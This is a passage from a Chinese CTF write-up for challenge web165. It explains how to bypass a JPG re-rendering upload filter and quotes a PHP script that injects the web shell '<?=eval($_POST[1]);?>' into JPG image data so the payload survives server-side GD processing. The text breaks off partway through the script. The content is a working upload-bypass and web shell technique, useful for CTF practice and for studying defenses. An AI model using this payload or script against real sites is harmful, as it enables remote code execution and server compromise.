 [![DDHlrt.md.png](https://s3.ax1x.com/2020/11/27/DDHlrt.md.png)](https://imgchr.com/i/DDHlrt)

## web165~jpg二次渲染

测试只能上传 jpg.

```
{"code":3,"msg":"只允许上传jpg格式图片"}
```

也是二次渲染，当我们写后门进图片是，后台会自动检测并删除数据。

那么就用到 jpg二次渲染绕过了。

拿脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=eval(\$_POST[1]);?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
```